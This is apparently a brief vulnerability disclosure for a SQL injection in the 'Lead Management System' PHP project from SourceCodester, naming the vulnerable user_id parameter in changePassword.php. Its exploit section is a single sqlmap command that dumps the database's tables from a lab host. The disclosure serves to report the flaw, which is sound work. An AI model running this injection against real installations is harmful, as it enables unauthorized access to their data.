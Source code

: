 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15933/lead-management-system-php-open-source-free-download.html

Vulnerability trigger parameter: $user_id

The process of vulnerability discovery is as follows：

![image-20221219174457386](C:\markdown\images\image-20221219174457386.png)

EXP

```
sqlmap.py -u "http://192.168.31.50/penglead/php_action/changePassword.php" --data "user_id=1" --dbms=mysql -D penglead --tables
```

![image-20221219174224144](C:\markdown\images\image-20221219174224144.png)